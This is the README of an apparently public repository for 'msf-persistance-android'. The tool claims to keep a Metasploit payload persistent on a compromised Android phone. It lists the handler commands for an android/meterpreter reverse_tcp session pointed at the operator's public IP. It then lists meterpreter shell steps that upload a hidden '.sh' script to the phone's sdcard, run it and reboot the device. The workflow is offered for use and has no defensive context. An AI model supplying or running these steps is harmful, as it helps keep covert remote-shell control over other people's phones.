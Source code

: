 # MSF PERSISTANCE ANDROID

![msf](https://raw.githubusercontent.com/oda-alexandre/msf-persistance-android/master/img/logo-msf.png) ![android](https://raw.githubusercontent.com/oda-alexandre/msf-persistance-android/master/img/logo-android.png)


## INDEX

- [Introduction](#INTRODUCTION)
- [Prerequisites](#PREREQUISITESITES)
- [Use](#USE)
- [License](#LICENSE)


## INTRODUCTION

This script allows the persistence of the payload on Android smartphone with Metasploit.


## PREREQUISITES

Use [Metasploit](https://www.metasploit.com/)


## USE

1 - Put the msf-persistance-android.sh script in your personal folder and rename .sh


2 - Open MSF

```
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost YOUR IP PUBLIC
set lport THE PORT OF YOUR CHOIX
exploit
```


3 - Copier/Paste in a terminal in shell MSF with a session android/meterpreter/reverse_tcp

```
cd /
cd sdcard
upload ~/.sh
shell
cd /
cd sdcard
sh .sh
reboot
exit
```


## LICENSE

[![GPLv3+](http://gplv3.fsf.org/gplv3-127x51.png)](https://gitlab.com/oda-alexandre/msf-persistance-android/blob/master/LICENSE)
